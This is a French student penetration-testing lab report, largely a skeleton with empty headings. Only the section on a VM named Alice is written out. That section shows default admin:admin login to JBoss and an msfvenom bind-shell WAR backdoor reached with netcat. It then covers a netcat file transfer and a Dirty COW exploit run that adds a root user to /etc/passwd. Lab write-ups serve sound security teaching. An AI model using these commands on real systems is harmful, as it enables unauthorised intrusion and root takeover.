

# TL de Pentest

**Arthur Dang et Negre Léo**

## I - Introduction

**Contexte**

**Périmètre**

**Objectifs**

**Méthodes**

**Charge**
Temps contrat

But
Vulnérabilité
Boîte noire
startPentest
stopPentest
3 VMs: Alice, Bob et Charlie

## II - Résumé Managerial

Retour général
Comparaison à la moyenne
Vulnérabilités
Recommendations

## III - Contenu Technique 

Nous commençons par lancer un scan du sous-réseau pour voir les machines que l'ont peut détecter.


Nous détectons notre machine hôte (192.168.56.1) et notre VM kali (192.168.56.103) mais aussi une nouvelle machine que nous allons appeler Alice avec l'adresse IP `192.168.56.2`.

Nous avons donc commencer par analyser cette machine.

### 1 - Exploitation de Alice

Pour essayer de voir les failles de vulnérabilités d'Alice, nous avons scanné ses ports pour voir lesquels étaient ouverts.


#### Port 80 - Http - Apache httpd 2.2.16

Ce port héberge un serveur http qui affiche le site qu'il héberge lorsque l'on se connecte dessus.

Dans un premier temps avec une navigation avec le navigateur à l'adresse 192.168.56.2:80, on nous affiche une page web basic sans importance.

#### Port 8080 - http - Apache Tomcat/Coyote JSP Engine 1.1

Le port 8080 est habituellement utilisé pour pour le développement de son application web.

Il affiche aussi un site web plus fourni avec en particulier une application qui affiche un calendrier.

En effectuant un scan de directory avec l'outil `dirb` ou l'auxiliaire `dir_scanner` de metasploit, on n'observe aucun fichier sensible en particuilier.



On peut chercher les CVE connues à la version Apache Tomcat/Coyote JSP Engine 1.1.

#### Port 9990 - http - JBoss Admnistrator

Jboss administator est un serveur d'applicaiton aidant à la gestion d'un serveur web.

**Connection sur le site d'administration**
En navigant sur ce port on arrive facilement à trouver la page d'authentification en testant les pages /manager, /host-manager pour faire des actions d'admin. Les crédentials sont `admin:admin` que l'ont a pu trouvé en testant les plus courants.


**Mise en place de la backdoor**
Nous avons alors créer un programme qui ouvrait un bind shell conforme à la plateforme JBoss. (En java compressé en .war).

Nous l'avons réalisé avec l'outil msfvenom pour se connecter au port 1234:
`msfvenom -p java/jsp_shell_bind_tcp LPORT=1234 -f war > shell.war`

En uploadant ce programme sur le serveur Jboss et en exécutant cette application en navigant à l'url `192.168.56.2/shell/` pour l'exécuter, notre backdoor a été lancée et nous pouvons nous y connecter pour accéder à un shell.

`nc 192.168.56.2 1234`
Nous pouvons vérifier notre connection en testant des commandes.

**Elevation de privilèges**
Nous voyons que nous somme connectés en tant que user "jboss". Et nous allons essayer d'avoir les droits roots pour vraiment prendre le contrôle de la machine.

`uname -a` permet de voir la version de l'os et de voir si il y a des failles connues pour cette machine.
`Linux Alice 2.6.32-5-686 #1 SMP Sun Sep 23 UTC 2012 i686 GNU/Linux`

Cette version d'OS est en particulier vulnérable à l'exploit dirtycow qui permet de créer un user avec les droits root.

On télécharge le programme dirty.c qui permet réaliser l'exploit. Qu'on transmet sur la machine d'alice via la backdoor que l'on a créer, qu'on compile et exécute.
La transmission du fichier a été réalisée avec: `nc -l -p 4444 < dirty.c` sur notre machine et `nc 192.168.56.1 4444 > dirty.c`.

```bash
$ ./dirty
Please enter the new password: firefart
/etc/passwd successfully backed up to /tmp/passwd.bak
Complete line:
firefart:fik57D3GJz/tk:0:0:pwned:/root:/bin/bash

mmap: b77ad000
ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'firefart'.

DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
/etc/passwd successfully backed up to /tmp/passwd.bak
Complete line:
firefart:fik57D3GJz/tk:0:0:pwned:/root:/bin/bash

mmap: b77ad000
madvise 0

Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'firefart'.

DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
```

On peut alors se connecter avec notre nouvel utilisateur `firefart` qui à les droits root. En ouvrant bien un terminal pour pouvoir avoir les retours du shell (demande de mot de passe..)

```bash
$ python -c 'import pty; pty.spawn("/bin/bash")'
jboss$ su firefart
Password: firefart
```

### Exploitation de Bob

**Scan des ports**

**Connection en ssh**

### Exploitation de Charlie

**Création d'un tunnel ssh pour interagir depuis la Kali**

**SQLMap**

**Upload de fichier**

## IV - Conclusion

### Nos résultats

### Les vulénrabilités

### Comment sécuriser le système
